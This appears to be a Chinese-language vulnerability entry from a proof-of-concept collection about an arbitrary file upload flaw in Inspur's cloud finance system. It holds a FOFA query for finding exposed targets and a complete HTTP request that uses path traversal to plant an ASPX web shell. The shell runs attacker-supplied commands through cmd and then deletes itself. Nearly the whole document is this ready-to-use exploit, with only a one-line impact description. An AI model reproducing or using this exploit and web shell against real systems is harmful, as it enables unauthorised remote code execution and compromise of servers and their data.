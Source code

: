 # 浪潮云财务系统UploadListFile存在任意文件上传漏洞

浪潮云财务系统UploadListFile存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="/cwbase/web/scripts/jquery.js" || icon_hash="-1341069524"
```

## poc

```javascript
POST /cwbase/EP/ListContent/UploadListFile.ashx?uptype=attslib&keyid=1&key1=1&key2=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: /
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------rww5upkbw6ctf0tu5hye
 
-----------------------------rww5upkbw6ctf0tu5hye
Content-Disposition: form-data; name="file"; filename="../../../../../../rce.aspx"
Content-Type: image/png
 
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
-----------------------------rww5upkbw6ctf0tu5hye--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408312352567.png)